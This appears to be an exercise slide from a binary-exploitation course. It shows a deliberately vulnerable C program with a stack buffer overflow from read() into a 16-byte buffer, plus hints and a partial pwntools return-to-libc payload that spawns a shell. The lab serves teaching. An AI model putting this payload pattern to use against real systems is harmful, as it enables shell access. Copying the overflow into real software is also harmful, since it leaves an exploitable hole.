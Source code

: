 
## :memo: hands-on (4): return to libc (x86-**32**) (`chal4`)

Let's run `system("/bin/sh")`!

<div class=twocolumn>

```c
char binsh[] = "/bin/sh";

void my_system(const char *cmd) {
  system(cmd);
}
void f() {
  char buf[16];
  read(0, buf, 64);
  printf("Hello, %s! Your ID is:\n", buf);
  my_system("id");
}
int main() {
  f();
  return 0;
}
```

Hint:
1. What is the offset of return address from the beginning of the buffer?
2. Which function can be used to execute shell? What should be the argument(s)?
3. Where should the function pointer (address) and arguments be located?

<br>

</div>

---


## :memo: hands-on (4): return to libc (x86-**32**) - solution (partial)

```python
from pwn import *
context.arch = 'i386'

binsh = ...     # address of "/bin/sh" string
my_system = ... # address of my_system function

payload = b'A' * 28 + p32(my_system) + b'A'*4 + p32(binsh)

p = process('./chal4')
p.send(payload)
p.interactive()
```

---